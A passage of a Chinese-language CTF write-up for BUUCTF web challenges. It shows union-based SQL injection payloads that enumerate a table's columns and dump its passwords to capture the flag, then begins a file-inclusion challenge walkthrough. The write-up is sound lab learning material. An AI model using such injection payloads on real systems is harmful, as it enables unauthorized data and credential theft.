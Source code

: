 ```mysql
-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1')%23
```

![image-20200924185247896](BUUCTF——Web.assets/image-20200924185247896.png)

```mysql
-1' union select 1,2,(select group_concat(password) from l0ve1ysq1)%23
```

<img src="BUUCTF——Web.assets/image-20200924185530059.png" alt="image-20200924185530059" style="zoom:33%;" />

得到flag。

参考博客：https://blog.csdn.net/qq_45521281/article/details/105533626





## 文件包含

### [极客大挑战 2019]Secret File（文件包含）

打开后是一个很诡异的网站，查看源码，发现有一处很怪的地方

![image-20200915155419843](BUUCTF——Web.assets/image-20200915155419843.png)

也就是说，本该有这么一个超链接的，但是不知道为啥没看到，不管了直接跳链接（在本界面全选就能发现这个link了）

跳转后是个新页面，中间有个叫`SECRET`的按钮![image-20200915160208315](BUUCTF——Web.assets/image-20200915160208315.png)
